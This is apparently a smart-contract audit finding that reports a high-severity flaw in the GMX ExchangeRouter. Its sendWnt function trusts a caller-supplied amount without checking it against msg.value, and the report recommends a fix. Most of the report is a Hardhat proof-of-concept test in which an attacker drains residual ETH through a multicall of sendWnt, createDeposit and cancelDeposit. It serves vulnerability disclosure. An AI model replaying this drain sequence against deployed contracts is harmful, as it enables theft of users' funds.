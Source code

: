 modern_Alchemist_00

high

# [H] - Residual native tokens in the ExchangeRouter contract can be drained

## Summary
Inside the sendWnt function of the ExchangeRouter contract, the amount value is passed to the library function depositAndSendWrappedNativeToken instead of using msg.value. 
Additionally, there is no check to ensure that msg.value is equal to amount.

## Vulnerability Detail
There are two problems:
	1. A person could accidently send more ether and less amount. the tx succeeds and the rest of the funds will stay in the contract.
	2. A person could send less ether and give a higher amount, The tx will succeed if the ExchangeRouter contract has some funds which can cover the amount given by the user.
	
The second point is however the most problamatic as it can allow anyone to simply drain all the funds from the ExchangeRouter contract.
Let's confirm,the below with a test.
(To replicate the same, You can include this test in `ExchangeRouter.ts` file)

```javascript
it.only("Residual Native Token in the ExchangeRouter can be drained", async () => {
    await usdc.mint(user2.address, expandDecimals(50 * 1000, 6));
    await usdc.connect(user2).approve(router.address, expandDecimals(50 * 1000, 6));

    // user2 accidently sends more ether
    await exchangeRouter.connect(user2).multicall(
      [
        exchangeRouter.interface.encodeFunctionData("sendWnt", [depositVault.address, expandDecimals(2, 18)]),
        exchangeRouter.interface.encodeFunctionData("sendTokens", [
          usdc.address,
          depositVault.address,
          expandDecimals(50 * 1000, 6),
        ]),
        exchangeRouter.interface.encodeFunctionData("createDeposit", [
          {
            receiver: user1.address,
            callbackContract: user2.address,
            market: ethUsdMarket.marketToken,
            initialLongToken: ethUsdMarket.longToken,
            initialShortToken: ethUsdMarket.shortToken,
            longTokenSwapPath: [],
            shortTokenSwapPath: [],
            minMarketTokens: 100,
            shouldUnwrapNativeToken: true,
            executionFee,
            callbackGasLimit: "200000",
          },
        ]),
      ],
      { value: expandDecimals(20, 18)}
    );

    console.log("exchangeRouter ETH balance Before HACK", Number(await ethers.provider.getBalance(exchangeRouter.address))/10**18);
    console.log("Attacker ETH balance Before HACK", Number(await ethers.provider.getBalance(user0.address))/10**18);
      
    const depositKey = await getNextKey(dataStore);
    // Attacker finds residual ETH in exchangeRouter and drains it.
    await exchangeRouter.connect(user0).multicall(
        [
          exchangeRouter.interface.encodeFunctionData("sendWnt", [depositVault.address, expandDecimals(18, 18)]),
          exchangeRouter.interface.encodeFunctionData("createDeposit", [
            {
              receiver: user1.address,
              callbackContract: user2.address,
              market: ethUsdMarket.marketToken,
              initialLongToken: ethUsdMarket.longToken,
              initialShortToken: ethUsdMarket.shortToken,
              longTokenSwapPath: [],
              shortTokenSwapPath: [],
              minMarketTokens: 100,
              shouldUnwrapNativeToken: true,
              executionFee,
              callbackGasLimit: "200000",
            },
          ]),
          exchangeRouter.interface.encodeFunctionData("cancelDeposit", [depositKey]),
        ],
        { value: 1}
      );

    console.log("exchangeRouter ETH balance After HACK", Number(await ethers.provider.getBalance(exchangeRouter.address))/10**18);
    console.log("Attacker ETH balance After HACK", Number(await ethers.provider.getBalance(user0.address))/10**18);

    
  });
```
## Impact
Any funds that reside in the `ExchangeRouter` can be drained by an attacker.

## Code Snippet
- https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/router/ExchangeRouter.sol#L94

## Tool used
Manual review, Hardhat

## Recommendation
Consider adding a check like below:
`require(msg.value >= amount);`

or remove amount argument from the `sendWnt` function and give msg.value directly to the library function.